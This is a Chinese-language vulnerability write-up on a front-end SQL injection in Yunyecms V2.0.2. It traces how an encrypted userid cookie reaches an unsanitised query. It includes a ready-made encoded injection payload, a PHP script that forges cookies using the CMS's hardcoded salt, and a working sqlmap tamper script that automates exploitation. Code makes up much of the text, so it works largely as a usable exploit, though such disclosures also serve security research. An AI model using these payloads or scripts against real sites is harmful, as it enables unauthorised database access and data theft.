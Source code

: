 # Yunyecms V2.0.2 前台注入漏洞（二）

### 一、漏洞简介

云业CMS内容管理系统是由云业信息科技开发的一款专门用于中小企业网站建设的PHP开源CMS，可用来快速建设一个品牌官网(PC，手机，微信都能访问)，后台功能强大，安全稳定，操作简单。

### 二、漏洞影响

yunyecms 2.0.2

### 三、复现过程

问题出现在前台`me***.php`文件中，自定义表单customform中的userid从cookie中获取，截取一段数据包可以看到cookie的userid如下：

![](images/15896453217664.png)


经过了加密处理，根据解密算法yunyecms_strdecode可以在corefun.php找到对应的加解密算法

![](images/15896453297825.png)


因为cookie里的userid可控因此我们根据算法流程我们可以在cookie中伪造userid值。还是用刚刚以上截取的userid测试。

![](images/15896453385174.png)


可以看到真实的userid为9。构造一个SQL注入，生成如下payload：

![](images/15896453457914.png)



```bash
YmM0OWM5ZWY1ODk5ZGRkNzM0T1NjZ1lXNWtJSE5zWldWd0tEVXA4ZDdlNzk5NTliNDQyYTI1ZDE0ZWUzODZmZDI4MzY5OTM0YQ==
```

payload生成代码front-test.php为：


```php
<?php
function yunyecms_strencode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
    return base64_encode(substr(md5($salt),8,18).base64_encode($string).substr(sha1($salt),0,35));
}
function yunyecms_strdecode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
    $retstr=base64_decode($string);
    $SHA1salt=substr(sha1($salt),0,35);
    $md5salt=substr(md5($salt),8,18);
    $retstr=substr($retstr,strlen($md5salt));
    $retstr=substr($retstr,0,(strlen($retstr)-strlen($SHA1salt)));
    return base64_decode($retstr);
}
if ($_GET['cookie']) {
    $string=$_GET['cookie'];
    $userid=yunyecms_strdecode($string);
    echo $userid;
}
if($_GET['userid']){
    $string=$_GET['userid'];
    $cookie=yunyecms_strencode($string);
    echo $cookie;
}
```

继续追溯可控的userid,可以看到userid经过步骤3->4->5传递到了pagelist函数中

![](images/15896453701550.png)


跟入pagelist函数，将$where拼接到了sql查询语句中$sqlcnt,然后交给了前几次SQL注入都出现的SQL查询函数GetCount中。

![](images/15896453810619.png)


详细查看下该函数，直接进行了sql查询。

![](images/15896453898841.png)


附上截

![](images/15896453958978.png)


手工有点麻烦，又想丢入sqlmap怎么办，由于userid经过了加密和编码处理，于是根据算法流程写一个tamper就可以很好的解决了，

![](images/15896454070186.png)


对应tamper的的脚本为

yunyecms_front_sqli_tamp.py


```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import base64
import hashlib
from lib.core.enums import PRIORITY
from lib.core.settings import UNICODE_ENCODING

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def md5(data):
    hash_md5 = hashlib.md5(data)
    md5data=hash_md5.hexdigest()[8:18]
    return md5data
def sha1(data):
    string_sha1=hashlib.sha1(data).hexdigest()[0:35]
    return string_sha1

def yunyecms_strencode(string):
    salt='~^y#u%n$y^e*c%m^s^~'
    return base64.b64encode(md5(salt)+base64.b64encode(string)+sha1(salt))
def tamper(payload, **kwargs):
    """
    Base64-encodes all characters in a given payload

    >>> tamper("1' AND SLEEP(5)#")
    'MScgQU5EIFNMRUVQKDUpIw=='
    """

    return yunyecms_strencode(payload) if payload else payload
```